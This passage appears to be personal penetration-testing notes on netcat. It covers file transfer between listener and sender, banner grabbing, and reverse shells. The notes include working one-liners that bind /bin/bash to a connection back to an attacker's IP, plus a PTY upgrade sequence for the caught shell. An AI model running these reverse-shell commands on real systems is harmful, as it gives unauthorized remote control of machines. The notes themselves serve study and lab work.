 Doesn't support SSL. For that - `ncat`

### sending files
Listener:
`nc -lvp 4444 > incomig.txt` nc is a symlink of netcat  
TARGET HIGH PORTS  
Common users usually don't have access to ports under 1000  
`-l` - listening (opens port 4444 and pipe input into incoming.txt).  
`v` verbose `p` port 

Sender: 
`nc -vn 10.0.2.5 4444 < exploit.sh`  
`n` no DNS resolution  


### reverse shell 
Listener:
`nc -lvp 4444`

Target:  
`netcat 10.0.2.4 4444 -e /bin/bash` or `nc -c bash 10.0.0.1 4444`  
`-e` execute that program after connection -> that way you can send commends directly to opened shell via TCP connection (also possible with UDP `ncat --udp 10.0.0.1 4242 -e /bin/bash`)

Python tty (teletypewriter) wrapper:  
```bash
python-c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  
CTRL+Z  
stty raw -echo; fg  
```


### banner grabbing

`nc -vn 192.168.1.103 21`
